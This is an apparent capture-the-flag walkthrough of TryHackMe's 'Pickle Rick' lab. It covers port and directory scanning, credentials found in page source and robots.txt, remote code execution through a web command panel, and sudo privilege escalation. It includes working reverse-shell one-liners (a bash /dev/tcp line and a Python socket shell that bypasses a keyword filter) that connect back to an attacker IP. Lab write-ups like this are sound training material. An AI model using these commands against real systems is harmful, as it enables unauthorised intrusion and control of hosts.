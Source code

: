 # Pickle Rick

This is the first machine in TryHackMe's "Starters" series: https://tryhackme.com/r/hacktivities/practice

I'll start with a quick preliminary nmap scan of the common ports:
`nmap -T4 10.10.215.148`
```
Nmap scan report for 10.10.215.148
Host is up (0.18s latency).
Not shown: 998 closed tcp ports (reset)
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http
```

We find that among the common ports, we just have SSH and HTTP open. I'll start another scan to hopefully get more detail about these services:
`nmap -T4 -sV -sC 10.10.215.148 -p22,80`
```
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.11 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 e1:e7:f9:c9:9d:4e:cd:e6:2d:1f:94:3c:7a:ce:27:02 (RSA)
|   256 dd:23:19:fe:f7:50:0b:55:92:71:b0:01:da:b2:54:b6 (ECDSA)
|_  256 04:ff:75:6d:7a:0c:be:f4:e2:a5:85:16:34:99:a8:43 (ED25519)
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-title: Rick is sup4r cool
|_http-server-header: Apache/2.4.41 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 15.08 seconds

```

Checking out the website, I'll run a gobuster scan to find sub-directories:
`gobuster dir -u http://10.10.215.148:80 --wordlist /usr/share/wordlists/dirb/common.txt`
```
Starting gobuster in directory enumeration mode
===============================================================
/.htaccess            (Status: 403) [Size: 278]
/.hta                 (Status: 403) [Size: 278]
/.htpasswd            (Status: 403) [Size: 278]
/assets               (Status: 301) [Size: 315] [--> http://10.10.215.148/assets/]                                                          
/index.html           (Status: 200) [Size: 1062]
/robots.txt           (Status: 200) [Size: 17]
/server-status        (Status: 403) [Size: 278]
Progress: 4614 / 4615 (99.98%)
===============================================================
Finished
===============================================================

```
We'll start exploring the pages found from this scan:

Opening to index.html, we're greeted with this page:
![Image of index.html](attachments/01.png)
From this, it sounds like our main objective is to login to the server via SSH.
In this page's source, we find the following comment:
```HTML
  <!--

    Note to self, remember username!

    Username: R1ckRul3s

  -->
```

Attempting to login, we receive "Permission denied (publickey)" meaning we'll need an SSH key to login with this username. Same when attempting to login as **root**.

/robots.txt only contains the string "Wubbalubbadubdub", which is either meaningless or a potential password.

In /assets, we have several files available. Some of them are images, so we'll take a quick look with `steghide`, but couldn't find any further information.

We seem to have potential login credentials, but we don't have anywhere to use them.

Now running a more exhaustive gobuster scan with `/usr/share/wordlists/dibuster/directory-list-2.3-small.txt`, as well as another Nmap enumeration of HTTP:
`gobuster dir -u http://10.10.215.148:80 --wordlist /usr/share/wordlists/dirbuster/directory-list-2.3-small.txt`
`nmap --script http* 10.10.215.148 -p80`

In the meantime, I continued to search manually for other pages that might be present indicated by the images in assets. One of them, portal.jpg, led to finding /portal.php which redirects to /login.php:
![Image of portal login page](attachments/02.png)

This time we don't have any useful information in the page's source, but we are able to log in to this page using `R1ckRul3s:Wubbalubbadubdub`.

Upon logging in, we have a "Command Panel" which gives us direct RCE into the webroot (/var/www/html) as the user www-data. 
![Image showing RCE through portal](attachments/03.png)

All of the other tabs visible at the top of this page deny access:
![Image showing other tabs in portal as forbidden](04.png)

We'll navigate back to /portal.php obtain a Bash reverse shell for easier enumeration:
Open a listener on the attacking machine:
`rlwrap nc -lnvp 53`
Connect to the listener from the target machine via the command panel:
`sh -i >& /dev/tcp/10.13.55.228/53 0>&1`

After a few unsuccessful attempts, I'm given this screen, indicating that there's some form of filtering that prevents us from executing these commands, including `nc` and `cat`:

![Image showing keyword filtering for the command portal](05.png)

I made some more attempts, eventually succeeding with the following Python3 command to establish the reverse shell:
`export RHOST="10.13.55.228";export RPORT=53;python3 -c 'import sys,socket,os,pty;s=socket.socket();s.connect((os.getenv("RHOST"),int(os.getenv("RPORT"))));[os.dup2(s.fileno(),fd) for fd in (0,1,2)];pty.spawn("sh")'`

Then we'll use our Python trick to upgrade to an interactive TTY: `python3 -c 'import pty;pty.spawn("/bin/bash")'`.

At this point, we find that we're able to read /home/rick/'second ingredients', which gives us the second flag.

Next, assuming we're going to somehow escalate privileges to find the final flag, I notice that using sudo, we can run any command as root:
```
www-data@ip-10-10-51-251:/$ sudo -l
Matching Defaults entries for www-data on ip-10-10-51-251:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User www-data may run the following commands on ip-10-10-51-251:
    (ALL) NOPASSWD: ALL
www-data@ip-10-10-51-251:/$ sudo whoami
root

```
Now using sudo, we can find that the 3rd and final flag is located in /root/3rd.txt, and cat its contents to finish the room!